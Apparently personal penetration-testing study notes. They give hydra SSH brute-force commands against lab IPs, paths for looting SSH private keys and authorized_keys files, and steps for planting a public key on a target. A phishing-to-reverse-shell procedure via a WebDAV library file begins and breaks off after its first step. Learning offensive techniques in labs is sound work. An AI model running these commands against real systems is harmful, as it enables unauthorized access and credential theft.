 ## SSH
Audit:
```
ssh-audit <ip>
```

Bruteforce:
```
hydra -l sunny -P /usr/share/wordlists/rockyou.txt 10.129.30.17 ssh -s 22022

hydra -L users-ssh.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.238.122 -V -u -f -o valid-ssh-creds.txt
```

Login:

```
chmod 600 id_rsa
ssh -i id_rsa -p 2222 noman@ip
ssh noman@ip
```

Files:
- LFI SSH Key wordlist https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists?utm_source=chatgpt.com

Sometimes you can get additional information related to the key under: `/etc/ssh/ssh_config` / `/etc/ssh/sshd_config` / `/home/user/.ssh/authorized_keys`
```
/home/<user>/.ssh/authorized_keys
/home/<user>/.ssh/id_rsa
```

Upload id_rsa.pub to target:
```
ssh-keygen # create id_rsa & id_rsa.pub (DONE! ~/.ssh/id_rsa & ~/Desktop/share/authorized_keys)

#Upload content of id_rsa.pub to target's authorized_keys

ssh -i ~/.ssh/id_rsa remi@192.168.191.231
```

## SMTP (25)

Full enumeration:

```
nmap 192.168.10.10 --script=smtp* -p 25
```

You can send phishing email with this port to get reverse shell:
Execution Steps

1. Create a Windows library file connecting to a _WebDAV_[1](https://portal.offsec.com/courses/pen-200-44065/learning/client-side-attacks-48976/abusing-windows-library-files-49009/obtaining-code-execution-via-windows-library-files-48979#fn-local_id_97-1) share we'll set up.
    